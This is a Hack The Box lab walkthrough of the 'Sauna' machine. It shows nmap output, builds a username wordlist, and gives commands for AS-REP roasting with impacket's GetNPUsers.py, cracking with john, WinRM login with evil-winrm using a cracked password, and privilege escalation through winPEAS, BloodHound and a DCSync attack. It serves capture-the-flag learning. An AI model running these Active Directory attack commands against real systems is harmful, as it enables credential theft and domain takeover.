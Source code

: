 ```yaml
---
layout: post
title:  htb-sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
Sauna is a easy machine created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)

# Enum  
  
###  nmap
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was [Kerberoasting](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)  
I used [impacket](https://github.com/ifconfig-me/impacket)'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
![index](/assets/img/sauna/sauna1.png)  
  
Searching something usefull I found usernames on page "About Us"  
![users](/assets/img/sauna/sauna2.png)  
  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  

![fsmithHash](/assets/img/sauna/sauna3.png)  

With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
![passwd](/assets/img/sauna/sauna4.png)
  
The part I like most in attacking windows, is the  [evil](https://github.com/Hackplayers/evil-winrm) part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith  
  
![evilLogin](/assets/img/sauna/sauna5.png)  
  
### Priv Esc  
  
To privelige escalation in windows the first thing I use is [winPEAS.bat](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat)  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user  
![svc](/assets/img/sauna/sauna6.png)  
  
Logged in as svc\_loanmgr and invoked the [hound](https://github.com/fox-it/BloodHound.py)  
  
![bloodHound](/assets/img/sauna/sauna7.png)  
  
ziped the json files and sent it to bloodhound  
  
The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..  
  
![HoundHelp](/assets/img/sauna/sauna8.png)  
  
Let's get back to impacket  
  
![hashdump](/assets/img/sauna/sauna9.png)  
  
And evil again  

![evilAdmin](/assets/img/sauna/sauna10.png)
